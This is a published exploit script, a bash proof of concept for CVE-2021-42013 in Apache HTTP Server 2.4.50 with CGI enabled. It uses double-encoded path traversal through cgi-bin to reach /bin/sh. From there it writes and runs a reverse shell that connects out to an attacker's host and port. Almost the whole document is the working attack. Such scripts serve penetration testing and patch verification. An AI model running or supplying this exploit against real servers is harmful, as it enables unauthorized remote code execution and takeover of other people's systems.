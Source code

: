 # Exploit: Apache HTTP Server 2.4.50 - Remote Code Execution (RCE) (2)
# Credits: Ash Daulton & cPanel Security Team
# Date: 24/07/2021
# Exploit Author: TheLastVvV.com
# Vendor Homepage:  https://apache.org/
# Version: Apache 2.4.50 with CGI enable
# Tested on : Debian 5.10.28
# CVE : CVE-2021-42013

#!/bin/bash

echo 'PoC CVE-2021-42013 reverse shell Apache 2.4.50 with CGI'
if [ $# -eq 0 ]
then
echo  "try: ./$0 http://ip:port LHOST LPORT"
exit 1
fi
curl "$1/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh" -d "echo Content-Type: text/plain; echo; echo '/bin/sh -i >& /dev/tcp/$2/$3 0>&1' > /tmp/revoshell.sh" && curl "$1/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh" -d "echo Content-Type: text/plain; echo; bash  /tmp/revoshell.sh"

#usage chmod -x CVE-2021-42013.sh
#./CVE-2021-42013_reverseshell.sh http://ip:port/ LHOST LPORT
            
